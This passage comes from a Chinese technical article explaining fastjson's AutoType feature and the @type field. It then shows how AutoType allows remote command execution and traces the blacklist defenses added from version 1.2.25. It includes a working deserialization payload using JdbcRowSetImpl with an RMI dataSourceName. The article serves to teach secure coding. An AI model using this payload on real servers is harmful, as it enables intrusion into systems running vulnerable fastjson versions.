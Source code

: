 
修改成：

    String jsonString = JSON.toJSONString(store,SerializerFeature.WriteClassName);
    

即可，以上代码，输出结果如下：

    System.out.println("toJSONString : " + jsonString);
    
    {
        "@type":"com.hollis.lab.fastjson.test.Store",
        "fruit":{
            "@type":"com.hollis.lab.fastjson.test.Apple",
            "price":0.5
        },
        "name":"Hollis"
    }
    

可以看到，**使用`SerializerFeature.WriteClassName`进行标记后，JSON字符串中多出了一个`@type`字段，标注了类对应的原始类型，方便在反序列化的时候定位到具体类型**

如上，将序列化后的字符串在反序列化，既可以顺利的拿到一个Apple类型，整体输出内容：

    toJSONString : {"@type":"com.hollis.lab.fastjson.test.Store","fruit":{"@type":"com.hollis.lab.fastjson.test.Apple","price":0.5},"name":"Hollis"}
    parseObject : Store{name='Hollis', fruit=Apple{price=0.5}}
    getFruit : Apple{price=0.5}
    

这就是AutoType，以及fastjson中引入AutoType的原因。

但是，也正是这个特性，因为在功能设计之初在安全方面考虑的不够周全，也给后续fastjson使用者带来了无尽的痛苦

### AutoType 何错之有？

因为有了autoType功能，那么fastjson在对JSON字符串进行反序列化的时候，就会读取`@type`到内容，试图把JSON内容反序列化成这个对象，并且会调用这个类的setter方法。

那么就可以利用这个特性，自己构造一个JSON字符串，并且使用`@type`指定一个自己想要使用的攻击类库。

举个例子，黑客比较常用的攻击类库是`com.sun.rowset.JdbcRowSetImpl`，这是sun官方提供的一个类库，这个类的dataSourceName支持传入一个rmi的源，当解析这个uri的时候，就会支持rmi远程调用，去指定的rmi地址中去调用方法。

而fastjson在反序列化时会调用目标类的setter方法，那么如果黑客在JdbcRowSetImpl的dataSourceName中设置了一个想要执行的命令，那么就会导致很严重的后果。

如通过以下方式定一个JSON串，即可实现远程命令执行（在早期版本中，新版本中JdbcRowSetImpl已经被加了黑名单）

    {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
    

**这就是所谓的远程命令执行漏洞，即利用漏洞入侵到目标服务器，通过服务器执行命令。**

在早期的fastjson版本中（v1.2.25 之前），因为AutoType是默认开启的，并且也没有什么限制，可以说是裸着的。

从v1.2.25开始，fastjson默认关闭了autotype支持，并且加入了checkAutotype，加入了黑名单+白名单来防御autotype开启的情况。

但是，也是从这个时候开始，黑客和fastjson作者之间的博弈就开始了。

因为fastjson默认关闭了autotype支持，并且做了黑白名单的校验，所以攻击方向就转变成了"如何绕过checkAutotype"。

下面就来细数一下各个版本的fastjson中存在的漏洞以及攻击原理，**由于篇幅限制，这里并不会讲解的特别细节，如果大家感兴趣我后面可以单独写一篇文章讲讲细节**。下面的内容主要是提供一些思路，目的是说明写代码的时候注意安全性的重要性。
